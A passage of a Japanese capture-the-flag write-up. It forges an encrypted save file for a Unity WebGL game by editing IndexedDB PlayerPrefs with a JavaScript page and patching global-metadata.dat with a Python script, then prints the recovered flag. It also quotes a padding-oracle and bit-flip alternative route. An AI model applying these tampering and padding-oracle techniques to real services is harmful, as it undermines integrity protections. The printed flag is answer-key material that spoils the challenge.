    <h1>modify PlayerPrefs</h1>
    <div id="progress">processing</div>
    <a href="/">back to game</a>
    <script>
{
  let p = document.getElementById('progress');
  let req = indexedDB.open("/idbfs");

  req.onsuccess = ev => {
    let db = req.result;
    let objectStore = db.transaction(['FILE_DATA'], "readwrite").objectStore('FILE_DATA');

    p.textContent += '.';

    objectStore.openCursor().onsuccess = ev => {
      let cursor = ev.target.result;

      if (cursor) {
        if (cursor.key.includes('PlayerPrefs')) {
          p.textContent += '.';
          let contents = cursor.value.contents;
          contents = String.fromCharCode(...contents);
          console.log(contents);
          contents = contents.replace('\x06Paused\x011', '\x07blessed\x011');
          cursor.value.contents = new Uint8Array(contents.split('').map(c => c.charCodeAt(0)));

          let requestUpdate = objectStore.put(cursor.value, cursor.key);
          requestUpdate.onsuccess = () => {
            p.textContent = 'done!';
          };

          return;
        }

        cursor.continue();
      }
    };
  };
}
    </script>
  </body>
</html>
```

これを実行してからゲームを起動してセーブデータを出力し、問題サーバに投げてみました…が、`Sorry, not blessed` と怒られてしまいました。`blessed` パラメータを生やすことはできなかったようです。

### 試行3: global-metadata.dat を改変してセーブデータに含まれるパラメータのキーを変えてしまおう

先程の試行から推測するに、セーブデータの出力時には `PlayerPrefs` をそのままシリアライズして暗号化しているわけではないのでしょう。ただ、セーブデータの平文には `Power` や `Heat` のようなキーが含まれているでしょうから、それなら事後的に `PlayerPrefs` をいじるのではなくそもそも `global-metadata.dat` に含まれるこれらのキーを改変してしまうのはどうでしょう。

そこそこ長い `CellsReplace` を `blessed` に変えられないか考えます。`global-metadata.dat` 中に含まれる文字列は以下のように全く区切りのない形で配置されており、null 終端や文字列の直前に文字数を置かれたりはされていません。

```
…BuildVersionMoneyHeatPowerCellsReplacePausedPowerThisGameHeatThisGameMoneyThisGameTotalMoneyProtiumDepletedTotalHeat…
```

ではどのようにして文字列を管理しているのでしょうか。`global-metadata.dat` をパースしてIDA で解析しやすくしてくれるツールである [nevermoe/unity_metadata_loader](https://github.com/nevermoe/unity_metadata_loader) のコードを見てみると、どうやら[別途文字列のオフセットや文字数などを保持している](https://github.com/nevermoe/unity_metadata_loader/blob/258354cc6b5246126d1cd35f9a500970c7063d99/unity_decoder/main.cpp#L202-L218)ようだとわかりました。

`CellsReplace` の周囲の文字列の文字数を取り出して、これらの文字列の文字数などを保持しているヘッダ部分を探すスクリプトを書きましょう。(普通に `global-metadata.dat` をパースすればよかったのでは?)

```python
import struct

p32 = lambda x: struct.pack('<I', x)

with open('Build/Build.data.unityweb', 'rb') as f:
  s = f.read()

i = s.find(p32(12))
ts = [12, 5, 4, 5, 12, 6, 13, 12, 13, 10, 15, 9, 10, 22, 20, 8, 10, 16] # 0x339cee - 0x339db7
while i != -1:
  j = i

  for t in ts:
    if p32(t) not in s[j:j+0x100]:
      break
  else:
    print('found:', hex(i))
  
  i = s.find(p32(12), i + 1)
```

```
$ python3 find.py
found: 0x328c7a
found: 0x41fb12
found: 0x42003e
found: 0x429cbe
```

数件見つかりました。`CellsReplace` を `blessed_____` に置換した後、とりあえず `0x328c7a` の `0c 00 00 00` を `07 00 00 00` に変えます。ゲームを起動して、以下のようなセーブデータが出力できました。

```
yNFE9tKy05uFS+IikUT52mHYFojr9+6C6MUYA0P6pa7ngX13jtJBJstn3TGWWeKOu78dsJRTIyJ0+ZU+H3/9hspwnWLemWaHOPymjkq2YRY/ePsH4GiG3dnJ/IQ7wnACIC8yLXU2PYaVNUxWSvSe76M8V9iulp7MwCj/SSktItER+zByt2V/0V9PdC6e05J989uu5xGECnsQvgGDA8e3i5zF1SrN+NMOKGk0atrFu6u6uzOugdUikertRJhQhNhoIshULl1TZKVXOm0WazG3+qF8tdhXLwEsKQzIstC7hRrXzNWHt1QCwFatNuAS/FHjIdXxW8tW+p1QKXd+HmAmi+2GXTRN9qn7/iD3Amb7cedsR4HVol5bvEBGJOAU+v9CprogaCYE6zuC9hzVUvp18VCHkKuBrUrOiUtZmlq8DZbnn14W8/g0MaPk66L0T9uu
```

これを問題サーバに投げると、次のようなセーブデータが出力されました。`blessed` というパラメータを生やすことができたようです!

```
yNFE9tKy05uFS+IikUT52mHYFojr9+6C6MUYA0P6pa7ngX13jtJBJstn3TGWWeKOu78dsJRTIyJ0+ZU+H3/9hspwnWLemWaHOPymjkq2YRY/ePsH4GiG3dnJ/IQ7wnACIC8yLXU2PYaVNUxWSvSe76M8V9iulp7MwCj/SSktItER+zByt2V/0V9PdC6e05J989uu5xGECnsQvgGDA8e3i5zF1SrN+NMOKGk0atrFu6u6uzOugdUikertRJhQhNhoIshULl1TZKVXOm0WazG3+qF8tdhXLwEsKQzIstC7hRrXzNWHt1QCwFatNuAS/FHjIdXxW8tW+p1QKXd+HmAmi+2GXTRN9qn7/iD3Amb7cedsR4HVol5bvEBGJOAU+v9CprogaCYE6zuC9hzVUvp18VCHkKuBrUrOiUtZmlq8DZZzHWg+Ev7a8LXn/4MLO3V/+gjEvFCpASRP7cTSUgmJ1Gv8l+DPGqgbNVAxHBy6eDzXmW7cRIqjWOYLx89kjUKT
```

### フラグ入りのセーブデータを復号

せっかくフラグが入ったセーブデータを手に入れられても復号できなければ意味がありません。面倒になったのでゲームにこのセーブデータをインポートし、ブラウザのメモリダンプを取得してから `watevr{` を探すとフラグが得られました。

```
watevr{all_hail_the_mighty_reactor}
```

---

ちなみに、CTF の終了後 Discord に以下のような別解情報が流れていました。

> [08:09] Zeta Two: we used the padding oracle vuln on the submission page  
> [08:09] Zeta Two: to decrypt the save file  
> [08:09] Zeta Two: and then bit-flip it  
> [08:09] Zeta Two: to contain "blessed:1"

確かに問題サーバには

```javascript
	try {
		save = decrypt(save.data.toString("utf8"));
	} catch(e) {
		return res.send("Invalid save file");
	}
```

とセーブデータが正しく復号できたかどうか確認できるような仕組みがありましたが、その発想はありませんでした。